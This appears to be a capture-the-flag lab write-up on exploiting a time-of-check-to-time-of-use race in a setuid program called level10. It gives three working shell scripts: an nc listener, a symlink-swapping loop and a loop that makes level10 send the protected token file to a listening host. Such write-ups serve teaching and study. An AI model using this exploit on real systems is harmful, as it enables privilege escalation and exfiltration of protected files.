

## STEPS

### 1. Initial Investigation:
In the home directory, I found an executable named level10 and a file named token. Attempting to execute level10 with token as an argument resulted in denial of access.

I decompiled the level10 executable to understand its behavior. The decompiled code revealed that the program first checks the permissions of the file specified as an argument using the access() function before attempting to open it and send its contents to the host. This behavior creates a security vulnerability, as mentioned in the documentation for the access function.


### 2.Exploiting the Vulnerability:
Understanding the security hole created by the short time interval between checking permissions and opening the file, I decided to exploit it by creating symbolic links to the token file in a loop. Additionally, I set up a listening server to receive the file sent by the level10 executable.

So I created three shell scripts to exploit the vulnerability:
- The first script sets up a listening server on port 6969 using nc.
```
#!/bin/sh
while :
do
	nc -l 6969
done
```

- The second script creates and deletes a symbolic link to the token file repeatedly.
```
#!/bin/sh
while :
do 
	touch /tmp/t
	rm -rf /tmp/t
	ln -s /home/user/level10/token /tmp/t
	rm -rf /tmp/t
done
```

- The third script executes level10 with the symbolic link as the argument, sending the file to a specific host.
```
#!/bin/sh
while :
do 
	./level10 /tmp/t 10.12.174.84
done
```

I executed the three scripts simultaneously. As a result, the level10 executable attempted to send the file to the specified host multiple times, exploiting the vulnerability in the permission check and eventually revealing the flag.


